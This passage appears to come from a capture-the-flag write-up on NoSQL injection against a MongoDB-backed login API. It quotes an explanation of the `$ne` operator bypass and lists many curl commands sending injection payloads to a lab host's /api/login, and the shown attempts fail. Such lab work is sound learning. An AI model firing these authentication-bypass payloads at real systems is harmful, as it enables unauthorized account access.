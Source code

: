 > To perform a successful MongoDB injection, it is enough if the attacker supplies the following malicious input data as a POST request:

> `username[$eq]=admin&password[$ne]=1`

> The [$ne] query operator means not equal. Therefore, the resulting query will find the first record in which the username is admin and the password is not 1. If this code is used for authentication, the attacker is logged in as the admin user.


But I don't know the username, so I should aim for the following request: `username[$eq]=admin&password[$ne]=`. I did a test login on the web browser to see in what form POST request is made. `application/x-www-form-urlencoded` it is.

### NoSQL Injection - `$ne` operator

I've tried many variations:

```
curl -H "application/x-www-form-urlencoded" -d "username=admin&password=admin" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: application/x-www-form-urlencoded" -H "Accept: application/json" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username[$exists]=true&password[$exists]=true" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username%5B$gt%5D=&password%5B$gt%5D=" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded;charset=UTF-8" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=" --data-urlencode "password[$ne]=" -v 206.189.121.131:31978/api/login
curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login

curl -d "username[$gt]=&password[$gt]=" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D%26password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -d "username%5B%24ne%5D%3D&password%5B%24ne%5D%3D" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" -d "username={'$gt': ''}&password={'$gt': ''}" -v 206.189.121.131:31978/api/login

	{"logged":0,"message":"Login Failed"} 

curl -H "application/json" -d "{'username': {'$gt': ''},'password': {'$gt': ''}}" -v 206.189.121.131:31978/api/login
curl -H "application/json" -d "{'username': {'$ne': null}, 'password': {'$ne': null} }" -v 206.189.121.131:31978/api/login
curl -H "application/x-www-form-urlencoded" --data-urlencode "username[$eq]=admin&password[$ne]=foo" -v 206.189.121.131:31978/api/login
curl -d "username%5B$ne%5D=&password%5B$ne%5D=" -v 206.189.121.131:31978/api/login
curl -H "Content-Type: text/plain" -d "username[$ne]=&password[$ne]=" -v 206.189.121.131:31978/api/login

	{"message":"Invalid username or password"}   
```